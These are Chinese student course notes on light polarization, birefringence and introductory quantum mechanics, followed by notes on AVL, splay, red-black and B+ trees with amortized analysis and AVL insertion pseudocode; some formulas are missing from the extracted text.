概率密度为\(p=\dfrac{1}{2\pi}\)，所以通过偏振片后的光强为 对应的光强为\(I = I_0 \cos^2 \alpha\)，所以平均光强为
例子
一束沿\(x\)方向的线偏振光,经过两个偏振片，第一个偏振片(TA方向)与\(x\)轴成\(\theta\)角，第二个偏振片与\(y\)轴平行,求\(\theta\)为多少时，第二个偏振片的透射光强最大。
基本不等式可知，当\(\theta = 45^\circ\)时，透射光强最大。
常见偏振态¶
线偏振光 对于两束等强正交线偏振光，如果其相位差为\(k \pi\)，则同时变大，同时变小，合成的为线偏振光。
圆偏振光
如果两束等强正交线偏振光的相位差为\(\dfrac{\pi}{2}+k \pi\)，则其中一束光最大时，另一束光最小，周期性振动，合成的为圆偏振光。
由先到达最大的向后到达最大的旋转.
椭圆偏振光
当两束线偏振光不等强，或者相位差不是\(k \dfrac{\pi}{2}\)时，合成的光为椭圆偏振光。
无偏振光
即最常见的自然光，可以向任意方向振动，没有固定的振动方向。自然光可以看作是由两个振动方向垂直、相互间没有固定相位差、等振幅的线偏振光（非相干光）组合而成的。
无偏振光与圆偏振光的区别在于，传播的时候，无偏振光的振动方向是随机变化的，而圆偏振光的矢量轨迹是一个圆;
部分偏振光
按比例的含有自然光和偏振光的光。振动方向是随机变化的，在其中一个方向上的振动是最强的;
部分偏振光可分解为两束振动方向相互垂直的、不等幅的、不相干的线偏振光。
部分偏振光与椭圆偏振光的区别在于，部分偏振光的振动方向是随机变化的，而椭圆偏振光的矢量轨迹是一个椭圆。
偏振度
其中\(I_{max}\)是强度最大方向最大光强，\(I_{min}\)是强度最小方向光强,相减即为偏振光的光强，相加即为总光强。
对于线偏振光，\(I_{min}=0\),偏振度为1；对于自然光，\(I_{max}=I_{min}\),偏振度为0。
Brewster 角¶
当自然光以某一角度入射时(反射角与折射角之和为90度),反射光为线偏振光。
假设入射角为\(\theta_1\)，折射角为\(\theta_2\)，则有
根据折射定律，有
所以
所以
如果经过多次反射，每一次都为brewster角，则最后折射出来的光大部分都为线偏振光。
双折射现象(Birefringence)¶
双折射现象
双折射现象是指当光线通过某些各向异性介质（如方解石晶体）时，会分裂成两束偏振方向互相垂直的光线。这两束光线分别称为普通光（o光）和非常光（e光）;
具体来说，当一束未偏振的光进入双折射介质时，会分裂成两束光线：一束遵循常规折射定律（斯涅尔定律），称为普通光(ordinary light, o光)；另一束则不遵循常规折射定律，称为非常光(extraordinary light, e光)。
对于o光来说，其在介质中四面八方的折射率相同,其速度恒等于\(v_o\),对于e光来说，其在介质中四面八方的折射率不同，其速度在不同方向上从\(v_e\)到\(v_o\)变化。
称\(n_o=\dfrac{c}{v_o}\)，\(n_e=\dfrac{c}{v_e}\)为主折射率；
双折射现象广泛应用于光学仪器中，如偏光显微镜、液晶显示器等。
光的快慢轴
对于e光来说，其折射率在介质中不同方向不同，所以其传播速度不同，而频率不变，所以波长会变化；
对于传播方向快的；有
对于传播方向慢的；有
其中\(f\)是频率，\(\lambda\)是波长。
所以\(\lambda_{fast} > \lambda_{slow}\)。
光轴(Optical Axis)¶
o光和e光沿着光轴方向传播时，速度相同，折射率相同，对于 负晶体而言 ,\(n_o > n_e\),\(v_o< v_e\)，对于 正晶体而言 ，\(n_o < n_e\)，\(v_o > v_e\)。
常见的负晶体有\(CaCO_3\)
常见的正晶体有二氧化硅\(SiO_2\)
将光轴和光的传播方向构成的平面称为主平面(Principal Plane)。
- o光：振动方向垂直于主平面；
- e光：振动方向平行于主平面；
光轴与快慢轴之间的关系
负晶体而言,e光在光轴方向传播速度最慢，其它地方比o光快，光轴为慢轴，与光轴垂直的，传播速度最快的方向为快轴；
正晶体而言,e光在光轴方向传播速度最快，其它地方比o光慢，光轴为快轴，与光轴垂直的，传播速度最慢的方向为慢轴；
图中画虚线的为光轴，当一束光照向这样的结构时，可以将其振动方向分解为o光和e光的振动方向，由于光轴方向上o光和e光的速度相同，所以o光和e光在光轴方向上传播的距离相同，所以o光和e光在光轴方向上的相位差为0，但是在传播方向上，e光的速度为\(v_e\)，o光的速度为\(v_o\)，所以e光和o光的相位差为
其中\(d\)是片的厚度
QWP和FWP
- QWP：Quarter Wave Plate，四分之一波片，\(\Delta \phi = \dfrac{\pi}{2}\)
- HWP：Half Wave Plate，半波片，\(\Delta \phi = \pi\)
- FWP：Full Wave Plate，全波片，\(\Delta \phi = 2\pi\)
当光通过QWP时,o光和e光的相位差为\(\dfrac{\pi}{2}\);
-
如果是线偏振光,则一开始将其分解为o光和e光的振动方向,原本的相位差为\(k\pi\),通过QWP后,相位差为\(k\pi+\dfrac{\pi}{2}\),所以合成后出射的光为圆偏振光。
-
如果是圆偏振光,则通过QWP后,相位差为\(k\pi\)。所以合成后出射的光为线偏振光。
例子
一束自然光通过45度偏振片后，出射的光为线偏振光，再通过QWP后，出射光满足
即慢轴不变，快轴变为\(\sin(kz-\omega t-\dfrac{\pi}{2})\)，所以合成后出射的光为圆偏振光。为RCP,注意，快轴领先，所以它会先到达最大，所以是减去，在图上看来也是如此,从缝里出来后，先遇到了快轴的最大(\(-y\)方向上)，然后才是慢轴的最大。
例子
对于3A,第一次无法将振动方向分解为o光和e光的振动方向，所以出射的光仍为原光，第二次完全被阻挡，所以出射的光为0，\(I_1=0\)
对于3B,第一次将振动方向分解为o光和e光的振动方向，由于是\(1/4\)波片，所以出射的光为圆偏振光,
第二次相当于两束线偏振光经过,由马隆定律可知
由于快慢光独立衰减，所以最后的光强为
Danger
虽说e光并不满足折射定律，但是有一种例外，当光轴与入射面垂直时(主平面与入射面垂直,光轴和法线平行)，e光满足折射定律,有
和
不要把法线和光轴搞混了(-_-)
量子力学¶
约 1936 个字 预计阅读时间 7 分钟
普物的最后一舞，加油！💪
The nature of light(光的本质)¶
黑体辐射
黑体辐射是指一种理想化的物体（称为黑体）在热平衡状态下发出的电磁辐射。黑体能够吸收所有入射的电磁辐射，而不反射或透射任何辐射
普朗克辐射定律
\( h = 6.63 \times 10^{-34} \, \text{J} \cdot \text{s} \)
常见的的表达有普朗克常数\(h\) 和 约化普朗克常数\(\hbar = \frac{h}{2\pi}\)
光子的性质¶
光具有波粒二象性，光子具有能量和动量。
-
波： \(\bold{E}=E_m \cos(kx-\omega t)\),或者\(\bold{E}=E_e e^{i(kx-\omega t)}\)
- \(k\) 波数，\(k = \frac{2\pi}{\lambda}\)
- \(\omega\) 角频率，\(\omega = \frac{2\pi}{T}\)
- \(T\) 周期，\(T = \frac{1}{f}\)
- \(f\) 频率，\(f = \frac{\omega}{2\pi}\)
-
粒子： \(E=h\nu=h\dfrac{\omega}{2\pi}=\hbar\omega\),同时能量和动量满足关系\(E=mc^2=pc\)
- 动量\(p=\dfrac{E}{c}=\dfrac{h\nu}{c}=\dfrac{h \nu}{\nu \lambda}=\dfrac{h}{\lambda}=\dfrac{h}{\frac{2\pi}{k}}=\dfrac{h}{2\pi}k=\hbar k\)
光电效应
光电效应是指当光照射到某种材料（通常是金属）表面时，会导致材料表面释放出电子的现象。这一效应是由爱因斯坦在1905年解释的，他提出光子具有粒子性质，并且每个光子的能量与其频率成正比。光电效应的关键特征包括：
-
阈值频率：只有当入射光的频率高于某个特定值（阈值频率）时，才会发生光电效应。这是因为光子的能量必须大于材料中电子的逸出功（即将电子从材料中释放所需的最小能量）。
-
光子能量与电子动能：入射光子的能量一部分用于克服材料的逸出功，剩余的能量转化为电子的动能。公式为：
其中，\( h \) 是普朗克常数，\( \nu \) 是光的频率，\( W \) 是逸出功，\( m \) 是电子的质量，\( v \) 是电子的速度。
- 光强度与电子数量：增加入射光的强度（即光子数量）会增加释放的电子数量，但不会影响电子的最大动能。
光电效应的发现和解释为量子力学的发展奠定了基础，并且为光的粒子性提供了重要的证据。
Matter Wave(物质波)¶
🐅:神人德布罗意
物质波是德布罗意在1924年提出的一个概念，他认为任何物质都具有波动性，但是在提出这一概念之前，他并没有系统的学过物理；
对于宏观世界速度为\(v\),质量为\(m\)的粒子
- 动量\(p=mv\)
- 动能\(E_k=\frac{1}{2}mv^2\)
其波性质为
- \(E = h\nu=\hbar\omega\)
- \(p = h/\lambda=\hbar k\)
其波长为
- \(\lambda = \dfrac{h}{p}=\dfrac{h}{mv}=\dfrac{h}{\sqrt{2mE_k}}\)
其满足这样一个波函数
波函数的物理解释¶
物质波是一种概率波
The product \(\Psi^*\Psi\) gives the probability that the particle in question will be found between positions \(x\) and \(x+dx\).
即
波函数的平方模 \(\Psi^*\Psi\) 表示粒子在位置 \(x\) 到 \(x+dx\) 之间被找到的概率。 公式为：
其中，\(\Psi^*\) 是波函数的复共轭，\(dx\) 是位置的微小变化量。
将几率密度定义为
若要求粒子在\(x_1\)到\(x_2\)之间被找到的概率，则
同时其满足归一化
对于自由粒子而言
是一个很小的常量
算符定义¶
期望算符¶
一个粒子的期望位置
两个角代表被\(\Psi^*\) 和 \(\Psi\) 夹住做积分
如果求其它量例如势能的期望值也是类似的,例如\(\langle \psi |U(x)|\psi \rangle\)
动量算符(momentum operator)¶
对于\(\Psi = \psi_0 e^{i(kx-\omega t)}\)
对 \(x\) 求导数
而\(\hbar k\) 就是动量\(p\)
所以
动量算符为 $ p= -i\hbar \frac{\partial}{\partial x}$
用动量算符求动量
能量算符(Energy operator)¶
能量算符为 \(E = i\hbar \frac{\partial}{\partial t}\)
用能量算符求能量
薛定谔方程¶
对于一个粒子的总能量，有势能和动能
两边同时乘以波函数\(\Psi\)
将\(E\) 和 \(p\) 用算符表示
称其为一维含时薛定谔方程
简写为
其中\(\hat{H}\) 为哈密顿算符,也是能量算符
- 一维 \(\hat{H} = -\frac{\hbar^2}{2m} \frac{\partial^2}{\partial x^2} + U(x,t)\)
- 三维 \(\hat{H} = -\frac{\hbar^2}{2m} \nabla^2 + U(x,y,z,t)\)
定态薛定谔方程¶
如果说势能\(U\) 不随时间变化，则波函数可以写成
含\(t\)的项消去，得到
再运用\(E = \hbar \omega\)
称其为一维定态薛定谔方程
可以化为
其它定义
虎哥只提了一下，那我也只记一下
- 势垒隧道（barrier tunneling）
势垒隧道是指在量子力学中，粒子能够穿过势垒（势能）的量子效应。势垒隧道效应是量子力学中的一个基本现象，它描述了粒子在势垒（通常是势能）的阻挡下仍然能够穿透的现象。
- 测不准原理（Uncertainty principle）
测不准原理是指在量子力学中，粒子的位置和动量不能同时被精确测量。这意味着，如果我们试图精确测量粒子的位置，那么它的动量就会变得不确定，反之亦然。
同样能量和时间也有这样的关系
Ended: 普通物理学二
高级数据结构与算法分析 ↵
高级数据结构与算法分析¶
约 158 个字 2 行代码 预计阅读时间 1 分钟
授课：张国川 参考：吴一航学长的ADS讲义
在数据结构基础上，进一步学习数据结构的高级应用，特别是算法分析部分，偏向数学；
张国川老师是学术水平和教学水平都很高的老师，每每听课仿佛醍醐灌顶，富有启发;
奈何本人最后期末表现不佳，感谢老师，学生朽木。
目录¶
ADS_card 说明
目录卡片使用了自定义样式，源码在docs/css/card.css/ADS_card中，使用时需要引入该样式文件。
使用示例
<div class="ADS_card" style="--initial-text:'这是初始文字';--hover-text:'这是悬停文字，大小为0.7em';--hover-font-size:0.7em;">
</div>
Advance Data Structures and Algorithm Analysis¶
约 3022 个字 66 行代码 预计阅读时间 11 分钟
AVL tree(平衡二叉树)¶
AVL 数的想法是强制要求每次插入，删除之后都保证树的绝对平衡
AVL 数的递归定义
一颗空的树或它的左右两个子树的高度差的绝对值不超过1是AVL树，同时它的左右两个子树也是AVL树（从下往上看，不要从上往下看）
- 平衡因子(Balence factor) 简称 \(bf\),计算公式为
$$ bf = height_{left}-height_{right} $$
在AVL tree 中，\(bf\) 只能为 -1,0,1 三种情况之一
AVL tree 可以解决当顺序数据被插入到普通二叉搜索树的过程中，二叉搜素树会退化为链表的过程
不同类型的插入¶
LL型-右旋¶
在某结点的左结点(L)的左子树(L)上做了插入元素的操作导致失衡，我们称这种情况为左左型，应该进行右旋转
- A 向右旋转成为 B 的 右 child
- B的右子树成为A的左子树
Warning
需要注意的是，在这里，节点A的 \(bf\) 值只能是1，如果是0，说明左右树高相等，再插入也是AVL树，如果是-1，说明左边比右边矮，左边再长高1，也不会导致失衡
RR型-左旋¶
在某结点的 右结点(R)的 右子树(R)上做了插入元素的操作，我们称这种情况为 右右型 ，我们应该进行左旋转。
- A 向左旋转成为B的左child
- B 的左子树 成为 A 的右子树
Warning
节点A的 \(bf\) 值也是确定的
Note
总的来说，对于LL和RR型，我们解决失衡的方式是
对于LL，左结点当根
对于RR，右节点当根
LR 型-左右旋¶
在某结点的 左结点（L） 的 右子树（R） 上做了插入元素的操作导致失衡，我们称这种情况为 左右型 ，我们应该进行左右旋。
对于左右型，如果只进行单旋，不会解决问题
- 需要进行两次旋转(左右旋)
- 第一次（左旋）: B左旋，成为C的左结点，C的左子树成为B的右子树
- 第二次（右旋）: A右旋，成为C的右节点，C的右子树成为A的左子树
一个例子
RL 型-右左旋转¶
在某节点的在结点T的 右结点（R） 的 左子树（L） 上做了插入元素的操作，我们称这种情况为 右左型 ，我们应该进行右左旋。
同样，单旋对于RL型也没有用
- 需要进行两次旋转(右左旋)
- 第一次（右旋）: B右旋，称为C的右结点，C的右子树成为B的左子树
- 第二次（左旋）: A左旋，成为C的左节点，C的左子树成为A的右子树
总结
总的来说，对于LR和RL型，我们解决失衡的方式是
对于LR，左结点的右 child 当根
对于RL，右节点的左child 当根
Tip
如果一次插入最多只会导致插入路径上的一连串的结点失衡，我们只需要解决找到的第一个（最靠下的）失衡结点，将其解决，上面的结点自然也恢复到正常的平衡因子,所以，对于每次插入，我们至多只需要进行一次 rotation 就可以解决冲突了 但是对于删除，最坏的情况却要旋转 \(\log(n)\) 次
旋转前后，结点之间的相对位置不变，亦即左边的结点仍然在左边，右边的结点仍然在右边
AVL 树的搜索、插入和删除操作的时间复杂度为 \(O(\log n)\)
Splay tree(伸展树)¶
吴一航学长的ADS讲义
Splay 树的想法一方面来源于希望可以不像 AVL 那样保持严格的平衡约束，但也能保证某种层面（均摊）的对数时间复杂度，另一方面 Splay 树在访问（特别注意访问包括搜索、插入和删除）时都需要将元素移动到根结点，这非常符合程序局部性的要求，即刚刚访问的数据很有可能再次被访问，因此在实现缓存和垃圾收集算法中有一定的应用。
Splay 树并不在乎二叉树是否时刻都平衡，而是通过在每次操作时加上Splay操作，即通过一系列旋转将我们访问的结点移动到根结点
Note
Any M consecutive tree operations starting from an empty tree take at most \(O(M \log N)\) time.
Splay tree 希望从一棵空树开始连续的M个操作是 \(O(M \log N)\) 的
我们有两种旋转方式
naive的方式:
不断地把访问的结点与其父节点更换父子方式，即不断使用单旋一直转到根节点的位置，但是这种方法虽然满足了将访问的结点移动到根的需求，其路径上的结点却被移动到了很深的位置，这种方式不满足我们对于复杂度的要求
下面是合理的旋转方式:
对于任何不是根结点的结点 X ,我们关心它的 parent 节点 P 和它的 grandparent 结点 G:
- case 1: 如果 P 已经是根，直接旋转交换 P 和 X ，这与普通方法没什么区别
- case 2: 如果 P 并不是根，又分为两种情况
- Zig-zag(之字型): 双旋,使得X成为树根(不一定是树的根，是XPG子树的树根)，这种情况与普通方法是一样的，与 AVL 树的 RL 和 LR 型也是一样的
- Zig-zig(同侧型): 单旋，其实叫做单旋，实际上也是转两次，应该是为了和 AVL 树不一样才这么叫。 Zig-zig 的方法才是是与naive的方法不一样的地方,普通方法先交换了 X 和 P 的位置，再交换 X 和 G 的位置; Zig-zig 的操作方法是先交换 P 和 G ，再交换 X 和 P，相当于 X 直接跨了两步
insert 1 to 7 and then find 1
编程实践-Find root of AVL tree
For each case, the first line contains a positive integer \(N\) which is the total number of keys to be inserted. Then \(N\) distinct integer keys are given in the next line. All the numbers in a line are separated by a space.
output the root of AVL treeeeeeeeeeeeeee!
pseudo code
Define structure Node:
data: integer
left: pointer to Node (initially NULL)
right: pointer to Node (initially NULL)
height: integer (initially 0)
Define height(root):
If root is NULL:
Return -1
Else:
Return root.height
Define LL_rotation(root):
new_root = root.left
root.left = new_root.right
new_root.right = root
Update root.height
Update new_root.height
Return new_root
Define RR_rotation(root):
new_root = root.right
root.right = new_root.left
new_root.left = root
Update root.height
Update new_root.height
Return new_root
Define LR_rotation(root):
root.left = RR_rotation(root.left)
Return LL_rotation(root)
Define RL_rotation(root):
root.right = LL_rotation(root.right)
Return RR_rotation(root)
Define insert(root, x):
If root is NULL:
Create a new node with data x
Set left and right child to NULL
Set height to 0
Return the new node
Else if x < root.data:
Recursively insert x into the left subtree
If height difference between left and right subtree is 2:
If x < root.left.data:
Perform LL_rotation on root
Else:
Perform LR_rotation on root
Else if x > root.data:
Recursively insert x into the right subtree
If height difference between right and left subtree is 2:
If x > root.right.data:
Perform RR_rotation on root
Else:
Perform RL_rotation on root
Update root.height = max(height(root.left), height(root.right)) + 1
Return root
Main function:
Read integer N (number of nodes to be inserted)
Initialize root as NULL
For each node:
Read integer x
Insert x into the AVL tree (root = insert(root, x))
Output the data of the root node
Amortized Analysis(摊还分析)¶
吴一航学长的ADS讲义
摊还分析的想法来源于我们希望估计一种数据结构经过一系列操作的平均花费时间。然而，平均时间 非常难计算，因为每一步都有非常多的选择，连续 m 个操作，可能的操作路径是指数级别的。并且有 时候平均涉及概率分布等，但我们并不知道确切的分布，因此比较难以计算。 一种最简单的估计方法就是用最差情况分析作为平均情况的上界，例如 Splay 树，每个操作最差都是 \(O(n)\)（n 为树中结点个数）的，因此平均不会比最差情况差，所以也是 \(O(n)\) 的。然而这样的估计显然 是放得太宽了，我们对这个复杂度是非常不满意的，因此我们需要进行摊还分析。事实上，在最差情况 的分析中，我们忽略了一件事情，就是有的序列是不可能出现的，例如直接在空的树上用 \(O(n)\) 时间删 除，摊还分析则是希望排除掉最差情况分析中把所有不管可能不可能的情况，最差的路径挑出来的这 种无脑行为，转而分析所有可能的从空结构开始的操作路径中，最差的平均时间，那么这一时间一定比 最差情况分析好，因为排除掉了一些不可能出现的所谓最差序列，但又会大于等于平均时间，因为取的 是所有可能序列中最差的那一种。因此当我们算出摊还分析的时间复杂度，那么它也一定是平均时间 的上界，同时这个上界会比最差情况分析好.
总的来说，我们希望分析 Average 的情况是比较困难的，分析 worst 的情况是比较粗糙的，所以我们使用摊还分析，通过"劫富济贫"(截长补短),将最坏的情况削弱，同时又是平均情况的上界，只要这种情况是满足条件的，我们就可以用它来证明。
准备工作
其中 \(\hat{c}_i\) 是第i次操作的摊还代价，\(c_i\) 是第i次操作的实际代价，\(\Delta_i\) 是第i次操作的是截的长（负值），或者补的短（正值）
我们还需要满足：
所以：
但是在面对Splay tree的操作，我们并不能每一次都很好的定义一种 \(\Delta_i\),所以我们需要用到势能函数，来构造首尾可以相消的项
这样，所有的成本
证明Splay tree每个操作的复杂度
我们定义势能函数 \(\Phi(T)\) 为
其中 \(Rank(x)=\log S(x)\)
即以\(x\)为根的子树的结点数的对数，包括\(x\)本身
对于Zig操作,有一次旋转，real cost = 1

在放缩的过程中，我们保留\(X\) $$ \hat{c}_i = 1 + R_2(X) - R_1(X) \ + R_2(P) - R_1(P) \ \leqslant 1 + R_2(X) - R_1(X) $$ 这是很自然的，因为\(R_2(P) - R_1(P) \leqslant 0\)
对于Zig-zag操作，有两次旋转，real cost = 2

在这里，\(R_2(X)=R_1(G),R_1(P)>R_1(X)\) 所以，只需要考虑\(R_2(P) + R_2(G)+2\)为什么小于等于\(2R_2(X)\),对于旋转后的树，我们有
对于Zig-zig操作，有两次旋转，real cost = 2

这种情况就稍难一点，首先我们仍然把\(R_2(X)=R_1(G)\),然后加上再减去\(R_1(X)\),此时式子变成
再有\(R_1(P) > R_1(X),R_2(P)<R_2(X)\) 那么就剩下\(R_1(X) + R_2(G) + 2 \leqslant 2R_2(X)\) 类似的，我们有
其实，这也是有迹可循的，主要想法就是用不等式的时候，左边两棵树没有互相包含的关系
总的来说，每次操作的 amortized cost 最多不超过 \(3 (R_2(X) - R_1(X))+1=O(\log N)\)
M次操作的总代价为 \(O(M\log N)\)
还没完，我们仍然需要证明，当初始势能不为0时，我们的摊还代价是正确的，其实即使不为0，我们可以确定其初始势能是有界的一个数
则平均摊还代价为
当n趋近于无穷大时，尾项自然就去掉了，所以我们的摊还代价仍然大于等于实际代价，是合理的
红黑树与B+树¶
约 3903 个字 11 行代码 预计阅读时间 14 分钟
我讨厌黑叔叔
红黑树不想像AVl树一样通过定义平衡因子，每次操作之后检查是否平衡，通过旋转来保持平衡，而是放松这一简单粗暴的想法，通过给结点染色，从而定义另一种平衡
红黑树的定义
一棵红黑树是满足以下性质的二叉搜索树
- 每个结点要么是红色，要么是黑色
- 根结点是黑色
- 每个叶结点（NIL结点，空结点）是黑色
- 如果一个结点是红色，那么它的两个子结点都是黑色
- 对于每个结点，从该结点到其所有后代叶结点的简单路径上，均包含相同数目的黑色结点
需要注意的是，对于一个没有左子结点的结点，我们认为其子结点是NIL结点，是黑色的
- 我们称 NIL 为外部结点，其余有键值的结点为内部结点。
- 从某个结点 X 出发到达一个叶子结点（NIL）的任意一条简单路径上的黑色结点个数（不含 X 本身）称为 X 的黑高，记为 bh(X)。根据定义第五条，这一定义是合理的，因为从 X 出发到达一个叶子结点的任意一条简单路径上的黑色结点个数相同。除此之外，我们定义整棵红黑树的黑高为其根结点的黑高。
一棵有 \(n\) 个内部结点的红黑树的高度至多为 \(2 \log (n + 1)\)。
吴一航学长的ADS讲义
如果我们舍去全部的红色结点，剩下的树的结点个数一定大于等于高度为 \(bh(root)\) 的完全平衡二叉树的结点个数，因为删掉红色结点后可能不是二叉，这就是证明的第一个步骤：证明以 \(X\) 为root结点的子树至少有 \(2^{bh(x)} − 1\) 个内部结点。而根据第四条，任何路径上黑色结点必定占到至少一半的数量，因为红色不能是父子关系，所以有了证明的第二步，树高最多为黑高 \(2\) 倍。
具体证明第一步，我们可以使用数学归纳法,对树的高度\(h(x)\)进行归纳
Proof
这样就得到了黑高的bound，再用第二步就得到了整个树高的上界了
Question
证明：在一棵红黑树中，从某结点 X 到其后代叶结点的所有简单路径中，最长的一条路径的长度至多是最短一条的 2 倍
最短路是全黑路，最长路是黑红相间的，而所有简单路径黑色结点个数一样，故而可以证明
对于搜索操作，红黑树的时间复杂度是 \(O(\log n)\) 的,对于插入和删除，其情况就会更加复杂一些
红黑树的插入¶
向红黑树中插入结点时,有可能会破坏树的平衡性质,插入时需要将该结点初始颜色设置为红色，因为如果是黑色，那么其性质5一定会被破坏，接下来我们讨论每一种可能的情况
插入在黑结点下面¶
最简单的情况，没有破坏任何性质，不需要做任何调整
插入空树中¶
破坏了性质2，但是处理方法也很简单，直接将其染色成黑色即可
插入到红色结点的子节点中¶
此时唯一被违反的就是定义第四条，为了恢复，我们的想法是，在不影响性质5(以及其它性质)的前提下，通过一系列的染色和旋转使得没有父子都是红色,主要分为以下3种情况
X 有红叔叔¶
X 的叔叔（即父亲的兄弟）是红色的，X 无论左右孩子都是该情况
wyy有话说
这里所有结点都带子树，一方面至少有 NIL 结点，另一方面这可以不仅仅表示刚刚插入的情况，也可以表示经过几次调整后还在被这种情况困扰，因此更具一般性。注意 G 一定是黑色，因为 P 是红色，插入前它们就在红黑树中，因此不可能违背定义第四条

我们的想法是将X的红色甩掉，此时它的父亲和叔叔都是红色了，自然只能求助于祖父，但是我们不能直接交换它们的颜色(如果祖父是红色而叔叔父亲是红色，也不满足条件)，所以我们的方案将X的祖父染红，将X的父亲和叔叔染成黑色,(可以理解为将祖父的黑色分配给父亲和叔叔)此时不影响黑高的性质，但是并不代表问题已经解决了，因为曾祖父仍然可能是红色，但是至少问题网上推进了。如果一直推给根节点，根节点染黑即可，否则就是接下来的两种情况
X的叔叔是黑色的¶
- 情况2：X 的叔叔（即父亲的兄弟）是黑色的，且 X 是右孩子
- 情况3：X 的叔叔（即父亲的兄弟）是黑色的，且 X 是左孩子

情况2和情况3之间是存在互相转换的(由图可知)，解决方案与AVL tree也是一致的，通过判断红色是LR还是LL来进行旋转，旋转完之后，重新染色，第一层是黑，第二层是红即可
Note
在以上的分析中，我们只考虑了X插入在左子树的情况，对于右子树的情况，实际上是完全对称的，对于情况一，仍然求助于祖父，对于情况二和情况三，则考虑RL和RR的情况,最后的染色也是一样的
吴一航学长的ADS讲义

一棵有 n 个内部结点的红黑树插入一个结点的时间复杂度为 \(O(\log n)\)。
Question
考虑从空树开始连续插入 \(n(n > 1)\) 个结点得到一棵红黑树（每一步插入都要保证红黑树性质），试问这棵树一定会有红色结点吗？若是，请给出清晰的证明；若不是，请举出反例。
一定会，可以使用数学归纳法证明：n = 2 时显然正确，根下面插入的结点一定是红色且无需调整；此后如果不需要调整，因为我们插入的是红色结点，因此红色结点只可能变多；如果需要调整，则根据三种情况的讨论，我们发现无论哪一种情况，在调整之后一定还保留着红色结点。有同学可能会质疑，情况 1 如果 G 到了根结点，则需要被染黑，但要注意的是，此时的 X 还是红色的，因此不管什么情况都是会保留红色结点
红黑树的删除¶
我们首先回忆普通二叉树的删除操作，主要有以下三种情况
- 如果X是叶子结点，直接删除即可
- 如果X只有一个孩子，直接用孩子替换X即可
- 如果X有两个孩子，找到X的后继Y，将Y的值赋给X，然后删除Y，这个Y一般而言是左子树的最大结点，或者是右子树的最小结点
第三种情况可以通过一步交换变成第一第二种情况中的一种，因为左子树的最大节点不可能有右结点，右子树的最小结点不可能有左结点
叶子结点的删除¶
对于第一种情况,如果X没有子节点,亦即X是叶子结点,那么我们可以直接删除X,并让NiL结点接替这个位置,相当于什么都没有干
内部叶子结点¶
所以对于红黑树的删除,缩减到了两种大情况
- Case 1:X是有两个NiL结点的内部结点
- Case 2:X只有一个NiL结点的内部结点
- Case 2-1:child是红色
- Case 2-2:child是黑色
如果X只有一个带有键值的子节点,此时如果X是红色,那么万事大吉,直接删除,让它的子节点接替它的位置,如果X是黑色,接替上来的结点是红色,直接染黑即可,如果接替的是NiL结点(Case 1),或者接替上来的是黑色结点(Case 2-2),我们该怎么办
解决方法十分聪明,直接给黑色结点(包括NiL结点)再加上一重黑色,变成 双黑结点 .此时第五条性质没有被破坏,但是我们凭空多了一种颜色,这自然是不行的,所以我们的想法是,将这一重黑色传递给上层的一个红色结点,或者没找到,直接往上推到根节点,让根结点变成双黑,而根节点从双黑变成黑色是完全没有影响的,这样就解决了问题
我们可以把双黑传递的情况分为以下四类,用子树代表更一般的情况(可能发生在传递的过程中,X代表双黑结点)
红色呢,救一下啊
- 情况1: X有红色的兄弟

此时父结点一定是黑色,我们的想法很简单，兄弟是红色，那就希望兄弟能两肋插刀，把兄弟转上去，为了保持红黑树性质，很可惜只能把父亲染红，自己还承受双黑 debuff。但是好处在于，这个问题转化为了接下来的情况234中的一种,此时X的兄弟一定是黑色,因为这个兄弟之前是X红色兄弟的孩子:
- 情况2:X 的兄弟是黑色的，且兄弟的两个孩子都是黑色的
Note
根据距离划分为近、远侄子，用远近而不用左右是为了对称情况不混淆左右

此时没有红色能救一下了,我们就把希望寄托于父节点,因为根节点一定能救,所以此时的做法就是将这一层的黑色往上推,将X的一层黑色去掉,将兄弟染红,父亲给一层黑色,如果父亲是红色,那么直接染黑即可,如果父亲是黑色,那么就又多了一层黑色
Key-point
如果情况2是情况1演变而来的,那么X的父节点一定是红色,此时问题可以直接解决
- 情况3:X 的兄弟是黑色的，且近侄子是红色,远侄子是黑色

这时我们借用 AVL 树的想法，红色在父亲 P 的 RL 位置，因此做 single rotation 后会变成情况 4 的 RR 的情况
Note
也就意味着红色要给到 RR 的位置，这里有一个颜色的变化，用 RR 记 忆很方便
- 情况4:X 的兄弟是黑色的，且远侄子是红色,近侄子是任意颜色

此时对应 AVL 树的 RR，于是再一次 single rotation 即可把双黑的一重黑丢给红色远侄子（即 X 和 N2 都变成黑色），但要注意为了保证红黑树性质的颜色变化，如果 P 一开始是黑色,那么旋转前后到N2的路径上黑色结点数目不变，都是2,如果P是红色,那么旋转前后到N2的路径上黑色结点数目增多，此时需要将S染红，P染黑,总的来说,可以交换P和S的颜色
吴一航学长的ADS讲义
首先我们最多用 \(O(\log n)\) 的时间找到删除结点， 最多 1 次交换和 1 个删除的操作。接下来如果删除后没有问题则到此结束；否则根据分析，情况 1、3和 4 在问题解决前最多进去一次，因为 4 可以直接解决，3 直接进入 4 然后解决，1 如果进入 3 和 4也可以马上解决，进入 2 后也因为父结点是红色可以马上解决。因此关键在于情况 2 可能出现很多次，但最多也只是树高 \(O(\log n)\) 次，因为每次都会上推 1 格。总而言之，因为情况 1、3 和 4 在问题解决前最多进去一次，所以最多 3 次旋转加上 \(O(\log n)\) 次颜色调整可以解决问题
Question
考虑将一个结点 X 插入红黑树 T0，得到红黑树 T1，然后紧接着下一步操作又立刻将 X 从 T1 删除得到 T2，请问 T0 和 T2 是否一定一样？若是，请给出清晰的证明；若不是，请举出反例。

B+树¶
Definition
A B+ tree of order ** \(M\) ** is a tree with the following properties:
- The root is either a leaf or has between \(2\) and \(M\) children.
- All noneleaf nodes (except the root) have between $ \lceil \frac{M}{2} \rceil $ and \(M\) children.
- All leaves are at the same depth.
与红黑树的定义比起来，B+树的的定义就显得更为简单，我们只需要每个结点中储存的键值个数的限制和孩子个数的限制，以及所有键值都在叶节点中有存储。
Question
- 为什么根节点的孩子个数从2开始？
因为一开始插入到根结点爆炸时，根节点只能分裂成两个孩子
- 为什么非叶子结点的孩子个数要求是 \(\lceil \frac{M}{2} \rceil\) ？
是因为插入到爆炸的时候就是分裂到这个数量
- 注意非叶子节点孩子个数的限制是 \(\lceil \frac{M}{2} \rceil\)，如果问的是key的个数，那么是 \(\lceil \frac{M}{2} \rceil-1\)
B+树搜索¶
